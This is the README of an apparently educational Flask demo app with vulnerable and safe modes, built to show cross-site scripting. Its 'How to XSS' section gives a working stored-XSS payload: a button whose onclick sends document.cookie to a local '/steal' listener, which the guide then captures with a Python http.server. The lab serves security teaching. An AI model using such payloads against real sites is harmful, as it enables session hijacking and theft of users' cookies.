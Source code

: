 # Flask Books XSS

## Running manually
### Requirements
* Python 3.11 or 3.12
* Poetry 2 ([Installing instructions](https://python-poetry.org/docs/))

1. Install dependencies
```bash
poetry install
```

1. Create .env file like `example.env`

2. Run project

```bash
poetry run booksxss
# Or
poetry run flask --app flask_books_xss.app run
```

## Running in Docker

1. Build

```bash
docker build -t books-xss:latest .
```

2. Run (in vulnerable mode)

```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=true books-xss:latest
```
-> Access page on http://localhost:8080

3. Run (in safe mode)
```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=false books-xss:latest
```

-> Access page on http://localhost:8080 

## How to XSS (fetch cookies)

1. Run app in vulnerable mode (as described previously)

2. As an example, paste this into the Title field:

```html
<div style="padding:8px;border:1px solid #cc0000;background:#fff7f7">
  <strong>🔥 Limited offer:</strong>
  <button style="padding:6px 10px;border:0;background:#0070f3;color:#fff;cursor:pointer"
    onclick='(function(){
		fetch("http://127.0.0.1:4000/steal?c=" + encodeURIComponent(document.cookie));	
          })()'>
    Buy now
  </button>
</div>
```

3. Open an external command-line session

4. Run `python -m http.server -port 4000`

5. On the web app, click "buy now" which will trigger the cookie fetching

6. Look at your command-line terminal, which should have logged a request with cookie information in the URL

## Project layout

```bash
flask-books-xss/
├─ pyproject.toml                 # Poetry 2 (PEP 621)
├─ flask_books_xss/
│  ├─ __init__.py                 # app factory, env parsing
│  ├─ app.py                      # CLI entry (exposes `app`)
│  ├─ db.py / storage.py          # SQLAlchemy + helpers
│  ├─ routes.py                   # web blueprint
│  └─ templates/
│     └─ index.html               # uses {{ vulnerable }} flag
└─ (instance/)                    # created at runtime for SQLite

```

